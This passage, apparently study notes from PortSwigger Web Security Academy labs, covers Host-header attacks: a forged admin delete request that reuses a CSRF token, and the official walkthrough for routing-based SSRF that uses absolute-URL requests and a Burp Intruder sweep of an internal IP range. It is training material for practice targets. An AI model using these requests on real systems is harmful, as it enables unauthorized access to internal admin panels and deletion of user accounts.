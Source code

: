 ```bash
```
and in the response we see:
```bash
...
                   <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="4W4fJyPz4YDGG6QNHeDlQlDVitIInZqt">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
                    </form>
...
```
So we craft the req to delete carlos (csrf is copied from the form above):
```bash
GET /admin/delete?csrf=4W4fJyPz4YDGG6QNHeDlQlDVitIInZqt&username=carlos
```

### PRACTITIONER SSRF via flawed request parsing
Lab description:
This lab is vulnerable to routing-based SSRF due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.
To solve the lab, access the internal admin panel located in the 192.168.0.0/24 range, then delete the user carlos. 

Official lab's solution:
- Send the GET / request that received a 200 response to Burp Repeater and study the lab's behavior. Observe that the website validates the Host header and blocks any requests in which it has been modified.
- Observe that you can also access the home page by supplying an absolute URL in the request line as follows:
```bash
GET https://YOUR-LAB-ID.web-security-academy.net/
```
- Notice that when you do this, modifying the `Host` header no longer causes your request to be blocked. Instead, you receive a timeout error. This suggests that the absolute URL is being validated instead of the Host header.
- Use Burp Collaborator to confirm that you can make the website's middleware issue requests to an arbitrary server in this way. For example, the following request will trigger an HTTP request to your Collaborator server:
```bash
GET https://YOUR-LAB-ID.web-security-academy.net/
Host: BURP-COLLABORATOR-SUBDOMAIN
```
- In burp collaborator set pull and observe that the request to it has been made
- Send the request to burp intruder (example of the req below):
```bash
GET https://0ac900c0044972cb80eda3cb001a00ba.web-security-academy.net HTTP/2
Host: 0ac900c0044972cb80eda3cb001a00ba.web-security-academy.net
```
- Deselect `Update Host header to match target`
- Delete the value of the Host header and replace it with the following IP address, adding a payload position to the final octet: `Host: 192.168.0.§0§`
- In the Payloads side panel, select the payload type Numbers. Under Payload configuration, enter the following values:
```
From: 0
To: 255
Step: 1
```
- Click Start attack. A warning will inform you that the Host header does not match the specified target host. As we've done this deliberately, you can ignore this message.
- When the attack finishes, click the Status column to sort the results. Notice that a single request received a 302 response redirecting you to `/admin`. Send this request to Burp Repeater. 